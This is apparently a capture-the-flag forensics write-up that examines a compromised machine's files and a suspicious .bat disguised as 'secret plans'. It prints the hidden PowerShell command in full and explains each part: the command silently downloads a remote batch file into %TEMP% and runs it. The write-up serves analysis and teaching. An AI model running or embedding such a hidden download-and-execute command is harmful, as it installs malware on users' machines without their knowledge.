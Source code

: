 <img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/0f3dac95-40b3-46b7-b4cf-a21a311698d0" />

There are 2 files contstanlty upload in the channel which is `pay2winflag.jpg.enc`, a `jpg` file that got encrypted. There might be some sort of `Key` use to decode it. Next is the `Password.zip` file, nothing interesting here. Move on to analye the artifacts.

#### Analyze The Coompromised Machine Directory. 

There are 2 users in the machine which is `crustacean` and `public`. Each users got a decent amount of files, so I start with the `crustacean` first, maybe got a leads somewhere.

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/78777920-05af-4c14-b745-46c954512211" />
 
After a few minutes wandering around in the folder, we got something quite interesting. In the `/Users/crustacean/Downloads` folder.

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/ad7b8915-d40d-4c32-be44-4ea302e96ca4" />

From the `/Users/crustacean/Downloads` folder, we obtain 3 files. Analyzing each files return this conclusion: 

```
1. Lil L3ak secret plans for tonight.bat - Mysterious Unicode text, UTF-16, little-endian text, with very long lines (32767) with .bat extension
2. lil-l3ak-exam.pdf - just a brainrot quiz for new members format pdf file.
3. roblox-codes.txt - Txt files with bunch of custom made Roblox Gift Cards code.
```

#### Analyze "Lil L3ak secret plans for tonight.bat" File 

Using the `strings` command on the `Lil L3ak secret plans for tonight.bat` for a better view. The contents inside begin with the word `echo` which a command use to writes character strings to standard output, followed with a bunch of gibberish unknown brainrot text. But its not stop there, in forensic, everything matter even a small things.

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/890b620b-b9e3-4345-808c-fa3a5d147133" />

Keep scrolling down, digging up the `Lil L3ak secret plans for tonight.bat.bat` file I found an interesting `command` hidden in the gibberish text. 

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/57dd7bd0-0906-4708-be41-1de0700194cb" />

Let me pull it out for you: 

```
start /min cmd /c "powershell -WindowStyle Hidden -Command Invoke-WebRequest -Uri 'https://github.com/bluecrustacean/oceanman/raw/main/t1-l3ak.bat'
-OutFile '%TEMP%\temp.bat'; Start-Process -FilePath '%TEMP%\temp.bat' -WindowStyle Hidden"
```

So basically, what the command do is: 

```
`start /min cmd /c`: launches a minimized Command Prompt that runs a PowerShell command

`Powershell -WindowStyle Hidden -Command`: Launches PowerShell in a hidden window to nsures the PowerShell window is not visible to the user and prepare to execute next command. 

`Invoke-WebRequest -Uri 'https://github.com/bluecrustacean/oceanman/raw/main/t1-l3ak.bat'`: Use to download a file from the specified URL.

`-OutFile '%TEMP%\temp.bat'`: Saves the downloaded file in the current users `/%temp/` folder and name as `temp.bat`

`Start-Process -FilePath '%TEMP%\temp.bat' -WindowStyle Hidden`: start the process of the recent save file in hidden windows. 
```
